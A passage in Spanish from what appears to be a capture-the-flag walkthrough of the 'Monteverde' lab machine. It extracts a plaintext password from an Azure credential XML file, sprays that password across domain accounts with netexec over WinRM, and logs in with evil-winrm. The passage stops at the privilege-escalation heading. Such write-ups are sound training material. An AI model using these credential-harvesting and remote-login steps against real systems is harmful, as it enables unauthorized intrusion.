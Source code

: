```
# iconv -f UTF-16 -t UTF-8 azure.xml -o output.xml
```

Ahora podemos `visualizar` el `archivo` correctamente

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

`Validamos usuarios` con este `contraseña` y `obtenemos` unas `credenciales` válidas

```
# netexec winrm 10.129.228.111 -u users -p '4n0therD4y@n0th3r$'         
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\administrator:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```
## Intrusión

`Accedemos` a la `máquina víctima` mediante el servicio `winrm`

```
# evil-winrm -i 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'      
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```
## Privilege Escalation
